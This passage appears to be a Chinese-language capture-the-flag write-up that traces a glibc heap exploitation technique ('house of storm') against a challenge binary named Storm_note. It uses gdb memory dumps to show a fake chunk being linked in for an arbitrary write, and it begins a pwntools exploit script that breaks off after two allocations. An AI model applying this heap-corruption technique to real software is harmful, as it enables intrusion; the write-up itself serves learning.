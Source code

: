 ```arm
   3581                       bck = fwd->bk;
```
* 此时victim是unsortedbin

先是对`victim`的`fd_nextsize`和`bk_nextsize`的赋值
```arm
n132>>> p victim->bk_nextsize 
$14 = (struct malloc_chunk *) 0xabcd00c3
n132>>> p victim->fd_nextsize 
$15 = (struct malloc_chunk *) 0x5641a7e080f0
```
* 然后对fwd(0x5641a7e080f0)的bk_nextsize赋值为victim(0x5641a7e080b0)
```arm
n132>>> p fwd
$18 = (mchunkptr) 0x5641a7e080f0
n132>>> p victim
$19 = (mchunkptr) 0x5641a7e080b0
n132>>> p fwd->bk_nextsize 
$20 = (struct malloc_chunk *) 0x5641a7e080b0
```
* then 重点来了,设置fwd的bk_nextsize.
`victim->bk_nextsize->fd_nextsize = victim;`
此时`victim->bk_nextsize=0xabcd00c3`也就是`fakechunk`
其`fd_nextsize`也就是`0xabcd00c3+0x20`被设置为`victim=0x00005641a7e080b0`用来充当`fake_chunk`的`size`

* 之后完成对fd&bk链表的维护
```arm
 ► 3589           victim->bk = bck;
   3590           victim->fd = fwd;
   3591           fwd->bk = victim;
   3592           bck->fd = victim;
```
* 对fakechunk的入链已经完成
```arm
n132>>> x/8gx 0xabcd00e0
0xabcd00e0:	0x41a7e080b0000000	0x0000000000000056
0xabcd00f0:	0x00007f51a0901b78	0x00005641a7e080b0
```
* 接下来将其获得
有个检查此处检查`mmapped`位所以要求写入的`heap_address`最高非0位为偶数`/x56`
```
 ► 3240   assert (!mem || chunk_is_mmapped (mem2chunk (mem)) ||
   3241           av == arena_for_chunk (mem2chunk (mem)));
```
* 实现任意写.tql


## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": ",str(c))
def add(size):
	cmd(1)
	p.sendlineafter(" ?\n",str(size))
def free(idx):
	cmd(3)
	p.sendlineafter(" ?\n",str(idx))
def edit(idx,c):
	cmd(2)
	p.sendlineafter(" ?\n",str(idx))
	p.sendlineafter(": \n",str(c))
p=process("./Storm_note")
#context.log_level='debug'
add(0x500)#0
add(0x88)#1
```